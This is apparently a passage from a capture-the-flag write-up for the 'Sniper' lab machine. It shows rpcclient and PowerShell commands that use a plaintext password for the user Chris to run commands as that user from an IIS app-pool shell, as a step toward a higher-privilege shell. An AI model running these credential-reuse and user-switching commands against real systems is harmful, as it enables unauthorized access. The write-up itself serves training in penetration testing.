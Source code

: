 ###### `rpcclient using credentials`
Let's try rpcclient. Posting some of the rpcclient output here.
```
┌──(root㉿kali)-[/home/ringbuffer]
└─# rpcclient -U "Sniper/Chris%36mEAhz/B8xQ~2VM" 10.10.10.151
rpcclient $> getusername
Account Name: Chris, Authority Name: SNIPER

rpcclient $> getpwuid  # Get shell and homedir
do_cmd: Could not initialise unixinfo. Error was NT_STATUS_OBJECT_NAME_NOT_FOUND

rpcclient $> srvinfo
        10.10.10.151   Wk Sv NT SNT         
        platform_id     :       500
        os version      :       10.0
        server type     :       0x9003

```

nothing interesting can be extracted with the `rpcclient` shell. 

### `PowerShell To Elevate Shell`

###### `PowerShell to Switch User Session`
This is the important one. **You have a credentials that you know is working for user Chris. You can open powershell.exe as a `iis apppool\defaultapppool` User. You will use the PowerShell.exe to switch User Shell**
```
PS C:\inetpub\wwwroot\blog> $username = 'Sniper\Chris'
PS C:\inetpub\wwwroot\blog> $password = '36mEAhz/B8xQ~2VM'                             
PS C:\inetpub\wwwroot\blog> $password = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
PS C:\inetpub\wwwroot\blog> $cred = New-Object -typename System.Management.Automation.PSCredential -argumentlist $username,$password
PS C:\inetpub\wwwroot\blog> Invoke-Command -ScriptBlock {whoami} -Credential $cred -Computer localhost
sniper\chris
PS C:\inetpub\wwwroot\blog> whoami
iis apppool\defaultapppool
```
Okay so I was able to run just `whoami` command as user Chris. Now let's grab a shell for the user `Chris` But before that, we can verify that the user `Chris` is part of the `Remote Management Users` Group using the following command to get a shell as that user.
```
PS C:\inetpub\wwwroot\blog> net user chris
User name                    Chris
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            4/11/2019 6:53:37 AM
Password expires             Never
Password changeable          4/11/2019 6:53:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   10/24/2024 6:43:48 AM

```